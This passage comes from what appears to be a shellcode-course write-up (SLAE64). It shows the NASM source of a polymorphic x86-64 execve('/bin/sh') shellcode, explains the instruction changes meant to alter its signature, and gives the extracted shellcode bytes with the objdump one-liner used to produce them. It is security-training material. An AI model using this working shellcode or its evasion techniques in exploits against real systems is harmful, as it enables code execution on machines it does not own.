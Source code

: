 The polymorphic version (`execve.nasm`) is the following:

```nasm
global _start
section .text

_start:

	xor rsi, rsi
	mul rsi		; clear rax and rdx

	mov rbx, 0x68732f6e69622fff

	shr rbx, 0x8	; "/bin/sh\0"
	push rbx

	mov rdi, rsp	; rdi points at the top of the stack, where is the string

	mov al, 0x3b	; 3b is the hex value of the decimal 59 for execve 
	syscall		; exec execve syscall

	xchg rdi, rax	; put reurn value in rdi

	push 0x3c
	pop rax		; 3c is the hex value of the decimal 60 for exit
	
	syscall		; exec exit syscall
```

The comments are self-explanatory for the functionality of this program, which is the same as the original.

Now the changes, that were made in the polymorphic version, are explained. The `MUL` instruction is used to clear the registers `RAX` and `RDX`. Also, `RSI` doesn't have to point at the memory location of the string "/bin/sh\0", so it has value `0`. The only argument of `exit` syscall, which is the `status`, doesn't necessarily have the value `1`, but needs to have any value different from `0` in order to indicate unsuccessful termination. So, the `XCHG` instruction is used to put the return value of the `execve` inside `RDI`, which is not `0`.

### Testing the execve polymorphic shellcode

Now we need to compile `execve.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with the `objdump` one-liner.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$ ./compile.sh execve
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/1_execve$ objdump -d ./execve |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xf6\x48\xf7\xe6\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\xb0\x3b\x0f\x05\x48\x97\x6a\x3c\x58\x0f\x05"
```
